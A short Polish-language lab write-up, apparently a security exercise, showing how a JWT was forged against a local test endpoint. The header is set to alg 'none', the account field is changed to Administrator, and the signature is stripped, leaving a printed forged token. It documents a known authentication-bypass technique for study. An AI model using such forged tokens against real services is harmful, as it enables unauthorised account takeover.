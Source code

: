 ### Zadanie 2

Opis kroków:
1. Wygenerowałem JWT
2. Zmodyfikowałem header JWT
```json
{ "alg":"none","typ":"JWT"}
```
3. Zmodyfikowałem payload JWT
```json
{"account":"Administrator","role":"User","iat":1702500776,"aud":"https://127.0.0.1/jwt/none"}
```
4. Usunąłem podpis w JWT, ale kropkę zostawiłem

Zmodyfikowany JWT:
```json
{
    "jwt_token":"eyAiYWxnIjoibm9uZSIsInR5cCI6IkpXVCJ9.eyJhY2NvdW50IjoiQWRtaW5pc3RyYXRvciIsInJvbGUiOiJVc2VyIiwiaWF0IjoxNzAyNTAwNzc2LCJhdWQiOiJodHRwczovLzEyNy4wLjAuMS9qd3Qvbm9uZSJ9."
}
```

Efekt:
![img.png](img.png)

